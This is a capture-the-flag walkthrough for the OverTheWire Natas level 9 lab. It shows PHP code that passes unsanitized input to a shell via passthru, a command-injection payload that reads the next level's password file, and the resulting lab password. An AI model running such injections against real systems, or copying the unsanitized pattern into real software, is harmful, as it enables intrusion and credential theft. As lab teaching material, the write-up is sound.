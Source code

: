 # Natas 9 Solution

Natas 9 once again lets us view the source code.

http://natas9.natas.labs.overthewire.org/index-source.html:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

The `passthru` function executes a command. Because the website dosen't sanitize user
input, we can inject bash as the `$key`.
```bash
;cat ../../../../etc/natas_webpass/natas10 #
```
The semicolon ends the `grep` command and starts a new command.
`cat` prints the password file, and the hashtag comments out the 
rest of the line. When we submit this input, we get our password.

**Username: natas10**  
**Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**


